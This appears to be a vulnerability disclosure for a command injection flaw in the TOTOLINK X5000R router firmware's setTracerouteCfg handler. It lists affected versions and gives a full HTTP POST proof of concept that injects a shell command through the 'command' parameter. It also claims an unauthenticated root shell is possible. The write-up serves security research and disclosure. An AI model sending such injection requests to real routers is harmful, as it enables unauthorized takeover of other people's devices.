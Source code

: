 # Firmware Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/218/ids/36.html
- Version ：TOTOLINK X5000R V9.1.0u.6118_B20201102、TOTOLINK X5000R V9.1.0u.6369_B20230113

## Product Information

![](./img/1.png)

## Analyse

TOTOLINK X5000R (V9.1.0u.6369_B20230113)was found to contain a command insertion vulnerability in setting/setTracerouteCfg.This vulnerability allows an attacker to execute arbitrary commands through the "command" parameter.

![image.png](./img/2.png)

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.3.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 82
Origin: http://192.168.3.2
Connection: close
Referer: http://192.168.3.2/advance/traceroute.html?time=1679125513355
Cookie: SESSION_ID=2:1679122532:2

{"command":"127.0.0.1; pwd > /tmp/1.txt;","num":"4","topicurl":"setTracerouteCfg"}
```

![image.png](./img/3.png)

Finally, you can write exp to get a stable root shell without authorization.









